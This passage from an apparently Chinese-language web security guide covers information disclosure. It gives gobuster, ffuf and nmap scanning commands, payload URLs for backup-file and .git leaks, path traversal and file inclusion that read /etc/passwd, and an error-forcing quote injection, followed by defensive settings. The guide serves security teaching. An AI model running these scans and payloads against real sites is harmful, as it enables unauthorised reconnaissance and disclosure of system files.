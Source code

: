 3. **检查常见文件**
   - 尝试访问备份文件
   - 检查版本控制目录
   - 查找临时文件

### 自动化扫描
```bash
# 使用gobuster进行目录扫描
gobuster dir -u https://example.com -w /path/to/wordlist.txt

# 使用ffuf进行内容发现
ffuf -w wordlist.txt -u https://example.com/FUZZ

# 使用nmap检查信息泄露
nmap --script=http-enum,http-config-backup,http-git,http-svn-enum -p 80,443 example.com
```

## 利用技术

### 1. 源代码泄露利用
```
# 访问备份文件
https://example.com/index.php.bak
https://example.com/index.php~

# 访问Git仓库
https://example.com/.git/HEAD
```

### 2. 目录遍历
```
https://example.com/../../etc/passwd
https://example.com/%2e%2e/%2e%2e/etc/passwd
```

### 3. 错误信息利用
```
# 强制错误以获取调试信息
https://example.com/page.php?id=1'
```

### 4. 文件包含
```
https://example.com/page.php?file=../../../../etc/passwd
```

## 防御措施

### 1. 配置安全
- 禁用目录列表
- 限制错误信息显示
- 移除不必要的HTTP头
- 禁用不必要的HTTP方法

